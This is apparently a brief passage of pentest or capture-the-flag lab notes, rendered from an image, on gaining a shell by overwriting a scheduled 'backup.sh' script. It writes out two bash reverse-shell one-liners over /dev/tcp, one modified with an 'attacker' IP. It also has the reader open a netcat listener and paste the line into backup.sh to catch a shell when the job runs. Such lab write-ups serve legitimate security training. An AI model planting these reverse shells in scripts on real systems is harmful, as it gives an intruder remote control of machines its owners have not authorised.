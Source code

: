 pentest monkey!<br/>
<br/>
https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet<br/>
<br/>
bash -i &gt;&amp; /dev/tcp/10.0.0.1/8080 0&gt;&amp;1<br/>
<br/>
<br/>
From here modify the 1 liner to use attacker details.<br/>
<br/>
bash -i &gt;&amp; /dev/tcp/192.168.247.128/8080 0&gt;&amp;1<br/>
<br/>
open a listener in netcat<br/>
<br/>
modify the backup.sh by deleting what in there and pasting in the one liner... wait then profit<br/>
<br/>
<img src="image 13.png"/><br/>
<br/>
<br/>
Profit!<br/>
<br/>
<img src="image 14.png"/><br/>
<br/>
